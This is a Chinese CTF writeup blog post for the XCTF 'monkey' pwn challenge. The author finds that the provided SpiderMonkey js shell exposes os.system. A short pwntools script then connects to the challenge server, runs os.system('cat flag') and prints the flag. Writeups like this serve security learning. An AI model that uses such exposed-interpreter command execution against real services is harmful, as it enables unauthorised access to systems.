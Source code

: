 <!--yml
category: 未分类
date: 2022-04-26 14:36:35
-->

# monkey [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列18_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103693289](https://blog.csdn.net/fastergohome/article/details/103693289)

题目地址：[monkey](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4814&page=1)

本题是高手进阶区的第七题，先看看题目

![](img/526303b45b17ac42ef2f47ddf460fd68.png)继续是一道2星难度的题目，那就下载附件看看情况

```
root@mypwn:/ctf/work/python/monkey# ls -l
total 34972
-rw-r--r-- 1 root root  9544403 Dec 25 01:00 05fb160732b5493dae565b8c3f35474f.zip
-rwxr-xr-x 1 root root 24924816 Dec 31  2009 js
-rwxr-xr-x 1 root root   280448 Dec 31  2009 libnspr4.so
-rwxr-xr-x 1 root root    22224 Dec 31  2009 libplc4.so
-rwxr-xr-x 1 root root    19128 Dec 31  2009 libplds4.so
```

这道题目多了几个动态链接库，我先说明一下怎么在python+pwn中使用动态链接库：

```
p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
```

检查一下保护机制如下：

```
[*] '/ctf/work/python/monkey/js'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

看样子是道普通题目，那就先看看IDA的反编译情况，感觉这个题目不太平常，引入了js库，那估计就是个js语言解释器。

编写一个python脚本，在本地测试一下，脚本如下：

```
#!python
#!/usr/bin/env python
#coding:utf8

from pwn import *

context.log_level = 'debug'
process_name = './js'
p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
# p = remote('111.198.29.45', 36913)
# elf = ELF(process_name)

p.recv()

p.interactive()
```

我先试一下输入各种数据看看情况

```
root@mypwn:/ctf/work/python/monkey# python monkey.py 
[+] Starting local process './js' env={'LD_LIBRARY_PATH': './'} : pid 4036
[DEBUG] Received 0x4 bytes:
    'js> '
[*] Switching to interactive mode
$ help
[DEBUG] Sent 0x5 bytes:
    'help\n'
[DEBUG] Received 0x30 bytes:
    'help\r\n'
    'function help() {\n'
    '    [native code]\n'
    '}\n'
    'js> '
help
function help() {
    [native code]
}
js> $ alert('x')
[DEBUG] Sent 0xb bytes:
    "alert('x')\n"
[DEBUG] Received 0x55 bytes:
    "alert('x')\r\n"
    'typein:2:1 ReferenceError: alert is not defined\n'
    'Stack:\n'
    '  @typein:2:1\n'
    'js> '
alert('x')
typein:2:1 ReferenceError: alert is not defined
Stack:
  @typein:2:1
js> $ echo('x')
[DEBUG] Sent 0xa bytes:
    "echo('x')\n"
[DEBUG] Received 0x53 bytes:
    "echo('x')\r\n"
    'typein:3:1 ReferenceError: echo is not defined\n'
    'Stack:\n'
    '  @typein:3:1\n'
    'js> '
echo('x')
typein:3:1 ReferenceError: echo is not defined
Stack:
  @typein:3:1
js> $ os
[DEBUG] Sent 0x3 bytes:
    'os\n'
[DEBUG] Received 0x1 bytes:
    'o'
o[DEBUG] Received 0x126 bytes:
    's\r\n'
    '({getenv:function getenv() {\n'
    '    [native code]\n'
    '}, getpid:function getpid() {\n'
    '    [native code]\n'
    '}, system:function system() {\n'
    '    [native code]\n'
    '}, spawn:function spawn() {\n'
    '    [native code]\n'
    '}, kill:function kill() {\n'
    '    [native code]\n'
    '}, waitpid:function waitpid() {\n'
    '    [native code]\n'
    '}})\n'
    'js> '
s
({getenv:function getenv() {
    [native code]
}, getpid:function getpid() {
    [native code]
}, system:function system() {
    [native code]
}, spawn:function spawn() {
    [native code]
}, kill:function kill() {
    [native code]
}, waitpid:function waitpid() {
    [native code]
}})
js> $ os.getenv()
[DEBUG] Sent 0xc bytes:
    'os.getenv()\n'
[DEBUG] Received 0xd bytes:
    'os.getenv()\r\n'
os.getenv()
[DEBUG] Received 0x49 bytes:
    'typein:7:1 Error: os.getenv requires 1 argument\n'
    'Stack:\n'
    '  @typein:7:1\n'
    'js> '
typein:7:1 Error: os.getenv requires 1 argument
Stack:
  @typein:7:1
js> $ os.getpid()
[DEBUG] Sent 0xc bytes:
    'os.getpid()\n'
[DEBUG] Received 0x16 bytes:
    'os.getpid()\r\n'
    '4036\n'
    'js> '
os.getpid()
4036
js> $ 
```

看起来是能够直接执行js函数的，刚过执行了os.getenv()和os.getpid()。

看了一下提示：

```
({getenv:function getenv() {
    [native code]
}, getpid:function getpid() {
    [native code]
}, system:function system() {
    [native code]
}, spawn:function spawn() {
    [native code]
}, kill:function kill() {
    [native code]
}, waitpid:function waitpid() {
    [native code]
}})
```

那么后面的system函数应该就是我们可以执行sh命令的函数了

```
js> $ os.system('ls')
[DEBUG] Sent 0x10 bytes:
    "os.system('ls')\n"
[DEBUG] Received 0x11 bytes:
    "os.system('ls')\r\n"
os.system('ls')
[DEBUG] Received 0x3f bytes:
    '05fb160732b5493dae565b8c3f35474f.zip  libnspr4.so  libplds4.so\n'
05fb160732b5493dae565b8c3f35474f.zip  libnspr4.so  libplds4.so
[DEBUG] Received 0x23 bytes:
    'js\t\t\t\t      libplc4.so   monkey.py\n'
js                      libplc4.so   monkey.py
[DEBUG] Received 0x6 bytes:
    '0\n'
    'js> '
0 
```

果然本地执行命令是可以的，编写一个python脚本如下：

```
#!python
#!/usr/bin/env python
#coding:utf8

from pwn import *

context.log_level = 'debug'
process_name = './js'
# p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
p = remote('111.198.29.45', 36913)
# elf = ELF(process_name)

p.sendlineafter('js> ', 'os.system(\'cat flag\')')

p.interactive()
```

直接连上服务器测试一下

```
root@mypwn:/ctf/work/python/monkey# python monkey.py 
[+] Opening connection to 111.198.29.45 on port 36913: Done
[DEBUG] Received 0x4 bytes:
    'js> '
[DEBUG] Sent 0x16 bytes:
    "os.system('cat flag')\n"
[*] Switching to interactive mode
[DEBUG] Received 0x5 bytes:
    'os.sy'
os.sy[DEBUG] Received 0x43 bytes:
    "stem('cat flag')\r\n"
    'cyberpeace{0ac174372107b8a4f8ef4906db10c4a7}\n'
    'js> '
stem('cat flag')
cyberpeace{0ac174372107b8a4f8ef4906db10c4a7}
js> $ 
```

执行成功，这道题目在我们拿到程序之后，可能会有点小小的不适应。

但是其实真实世界的程序比这个复杂多得多，正常来说我们只要把动态库分离一下就好。